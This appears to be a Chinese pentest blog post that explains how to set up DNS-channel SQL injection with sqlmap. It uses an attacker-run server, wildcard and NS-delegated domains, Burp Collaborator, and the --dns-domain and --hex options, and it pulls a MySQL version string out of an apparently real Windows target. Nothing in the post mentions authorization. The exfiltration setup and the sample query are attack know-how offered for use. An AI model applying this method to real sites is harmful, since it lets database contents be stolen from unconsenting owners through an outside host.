渗透小技巧 ｜ sqlmap_dns注入配置方法
网上针对sqlmap进行dns注入的相关文章太少，只是简单介绍了下--dns-domain参数，相关的实战文章要么就写的模糊或者一笔带过，搞的云里雾里（主要是菜，关键还没大佬带）。然后自己参考网上的方法自己重新搞了一遍。
0X00
需要准备的东西，sqlmap、windows盲注一个、两个域名、一台外网服务器。

某次搞事情的时候碰到一个时间盲注，碰巧是台windows的，想起dns注入的方法。

在开始前我准备先用sqlmap的--sql-shell 命令进行dns注入payload的测试

先到burpsuite中的collaborator client中复制出burp给我们安排的域名
在利用sqlmap执行sql语句

Sqlmap还在跑的过程中burpsuite中已经接收到请求了。

352E362E3134.9hreqpopru1xgf9skq473yo14sajy8.burpcollaborator.net.
中的352E362E3134就是执行version()后返回的结果。

解码获取到mysql的版本。好了至此这个点进行dns注入是没毛病的。
0X01
准备配置域名2个，网上有些文章说一个也行，但是总感觉较为麻烦，很多域名服务器商也并未提供某些高级功能，所以还是准备两个的简单些。
www.a.com
www.b.com
首先我们来配置域名a-> a.com

只需要添加*进行泛解析指向我们的外网服务器的ip就可以了。
在来配置我们的域名b->b.com

这个就更简单了，直接修改域名的dns，就填入ns1.a.com ns2.a.com 就行了其他的都不用搞，照着填写就行了。
然后等待域名生效。我们在到外网服务器上来测试下看是否解析成功

服务器上开始监听53端口

然后本机ping hello.b.com 在外网服务器上发我们已经能接受到hello.b.com的请求，并且本机提示是找不到主机不用管，因为我们没有设置解析。已经都配置完毕我们使用sqlmap进行dns注入即可。

Sqlmap中加入参数--dns-domain=b.com --hex即可

来到这一步sqlmap会卡住提示设置DNS服务器实例
直接Ctrl+C

提示通过DNS通道的数据检索成功。
注入的速度就跟报错和联合注入一样快了，再也不用忍受龟速了。

点赞，转发，在看
原创投稿作者：cacker